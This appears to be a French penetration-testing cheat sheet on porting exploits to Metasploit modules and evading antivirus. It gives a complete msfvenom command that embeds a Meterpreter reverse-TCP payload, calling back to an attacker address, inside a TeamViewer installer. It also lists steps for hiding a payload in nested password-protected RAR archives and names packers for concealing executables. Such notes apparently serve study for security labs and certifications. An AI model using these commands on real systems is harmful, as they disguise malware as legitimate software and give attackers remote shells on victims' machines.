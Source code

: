 Possible de créer des modules en ruby, reprendre un module existant pour avoir la forme et coder l'exploit en se basant sur un PoC existant en python par exemple.

> [!IMPORTANT]
> L'indentation doit se faire avec des tabs
> Important de transposer les classes incluses a celles de metasploit

Pour trouver les classes appropriées -> https://www.rubydoc.info/github/rapid7/metasploit-framework/Msf


# AV BYPASSES

## OPTION 1 - Créer un payload à partir du Template d'un programme légitime

Stageless Windows x86 avec Template de programme et encodé en Shikata (-k pour permettre le lancement du programme)

```shell-session
msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -x ~/Downloads/TeamViewer_Setup.exe -e x86/shikata_ga_nai -a x86 --platform windows -o ~/Desktop/TeamViewer_Setup.exe -i 5
```

### OPTION 2 - Archiver un payload 

Télécharger RARLABS
https://www.rarlab.com/download.htm

```shell
wget https://www.rarlab.com/rar/rarlinux-x64-612.tar.gz
tar -xzvf rarlinux-x64-612.tar.gz && cd rar
```

Archiver le payload plusieurs fois avec mot de passe sur chaque archive et supprimer l'extension de leur nom.

```shell
rar a test.rar -p test.js
mv test.rar test
rar a test2.rar -p test
mv test2.rar test2
```


### OPTION 3 - Packer

Compression d'executable avec le payload packé à l'intérieur.

https://jon.oberheide.org/files/woot09-polypack.pdf

[UPX packer](https://upx.github.io/)

[The Enigma Protector](https://enigmaprotector.com/)
<br>[MPRESS](https://web.archive.org/web/20240310213323/https://www.matcode.com/mpress.htm)


### Randomiser le code dans les exploits

- Eviter d'utiliser les NOP sleds évidents lors de Buffer Overflow
- 
